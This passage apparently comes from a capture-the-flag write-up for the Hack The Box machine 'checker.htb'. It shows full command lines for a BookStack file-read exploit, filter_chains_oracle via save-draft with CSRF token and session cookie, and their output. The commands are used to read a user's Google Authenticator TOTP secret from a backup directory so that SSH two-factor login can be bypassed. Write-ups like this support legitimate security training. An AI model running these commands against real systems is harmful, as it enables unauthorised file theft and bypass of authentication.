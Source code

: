 ```py
elif self.verb.value == "PUT":
```

It's optional if the first modification works well on your machine. According to the PoC, we need to create a book, then create a page, and save the draft. We need to get the page number, `X-CSRF-TOKEN`, and the BookStack cookie.
You can retrieve all of these datas from your browser network devtools tab after saving the draft. Now, what file we need to exfiltrate. Because want to bypass the verification code on the SSH, we need to identify what technology behind it.
<br><br>
I came accross this [Post](https://www.tecmint.com/ssh-two-factor-authentication/) that explain how to setup TOTP on SSH using Google Authenticator. The output from this post is similar to the server so this should be it.
According to the post, the secret key used for generating the TOTP is stored at `.google_authenticator` inside the user's home directory. Let's try to read `/home/reader/.google_authenticator` file.

```bash
$ python filters_chain_oracle_exploit_bookstack_lfr_ssrf.py --target 'http://checker.htb/ajax/page/9/save-draft' --file '/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN": "2eWRQgwyDzLfzL8amvM5z4iVprsO0GaXBQG0K2gw", "Content-Type":"application/x-www-form-urlencoded","Cookie""bookstack_session=eyJpdiI6IjExbkJYcmlaZTJITE5IREtSSllVUGc9PSIsInZhbHVlIjoiMUZBcjZTcFFYVFZNMklPenMyb3pveHNyUFNHdytsTEVMbkcyZjh1RERqNXhjdE5zVXdSYWczZTlEck9xTXJrazB3MS9ZbUZCS0pRODVkQjR0UGcvUU9MS1AyeW8yUW9yMmNzTE92aGFRbUNFeVAzeUtjMWFZQnpWTU5mMlNraEoiLCJtYWMiOiI3N2YzMGYxMjM5OGM5YmEwZGMxZTAzMmZiMGMxNjU1YzBhZjhmNjNjYTI5N2MwYmM5NzUyOGVlYzVjZTQ3M2Y4IiwidGFnIjoiIn0%3D"}'       [*] The following URL is targeted : http://checker.htb/ajax/page/9/save-draft
[*] The following local file is leaked : /home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN": "2eWRQgwyDzLfzL8amvM5z4iVprsO0GaXBQG0K2gw", "Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjExbkJYcmlaZTJITE5IREtSSllVUGc9PSIsInZhbHVlIjoiMUZBcjZTcFFYVFZNMklPenMyb3pveHNyUFNHdytsTEVMbkcyZjh1RERqNXhjdE5zVXdSYWczZTlEck9xTXJrazB3MS9ZbUZCS0pRODVkQjR0UGcvUU9MS1AyeW8yUW9yMmNzTE92aGFRbUNFeVAzeUtjMWFZQnpWTU5mMlNraEoiLCJtYWMiOiI3N2YzMGYxMjM5OGM5YmEwZGMxZTAzMmZiMGMxNjU1YzBhZjhmNjNjYTI5N2MwYmM5NzUyOGVlYzVjZTQ3M2Y4IiwidGFnIjoiIn0%3D"}
[-] File /home/reader/.google_authenticator is either empty, or the exploit did not work :
```

Unfortunately, the current user doesn't have read access to it. We need to gather more information. The BookStack already contain some pages, the `Basic Backup with cp` page contains a backup script. This script will backup `/home` to the `/backup/home_backup`, maybe the machine uses this script either way it's worth a try. The Google Authenticator secret key shuold be at `/backup/home_backup/home/reader/.google_authenticator`.

```bash
$ python filters_chain_oracle_exploit_bookstack_lfr_ssrf.py --target 'http://checker.htb/ajax/page/9/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN": "2eWRQgwyDzLfzL8amvM5z4iVprsO0GaXBQG0K2gw", "Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjExbkJYcmlaZTJITE5IREtSSllVUGc9PSIsInZhbHVlIjoiMUZBcjZTcFFYVFZNMklPenMyb3pveHNyUFNHdytsTEVMbkcyZjh1RERqNXhjdE5zVXdSYWczZTlEck9xTXJrazB3MS9ZbUZCS0pRODVkQjR0UGcvUU9MS1AyeW8yUW9yMmNzTE92aGFRbUNFeVAzeUtjMWFZQnpWTU5mMlNraEoiLCJtYWMiOiI3N2YzMGYxMjM5OGM5YmEwZGMxZTAzMmZiMGMxNjU1YzBhZjhmNjNjYTI5N2MwYmM5NzUyOGVlYzVjZTQ3M2Y4IiwidGFnIjoiIn0%3D"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/9/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN": "2eWRQgwyDzLfzL8amvM5z4iVprsO0GaXBQG0K2gw", "Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjExbkJYcmlaZTJITE5IREtSSllVUGc9PSIsInZhbHVlIjoiMUZBcjZTcFFYVFZNMklPenMyb3pveHNyUFNHdytsTEVMbkcyZjh1RERqNXhjdE5zVXdSYWczZTlEck9xTXJrazB3MS9ZbUZCS0pRODVkQjR0UGcvUU9MS1AyeW8yUW9yMmNzTE92aGFRbUNFeVAzeUtjMWFZQnpWTU5mMlNraEoiLCJtYWMiOiI3N2YzMGYxMjM5OGM5YmEwZGMxZTAzMmZiMGMxNjU1YzBhZjhmNjNjYTI5N2MwYmM5NzUyOGVlYzVjZTQ3M2Y4IiwidGFnIjoiIn0%3D"}
RFZEQlJB
b'<SECRET_KEY>\n" TOTP_AUTH\n'
```
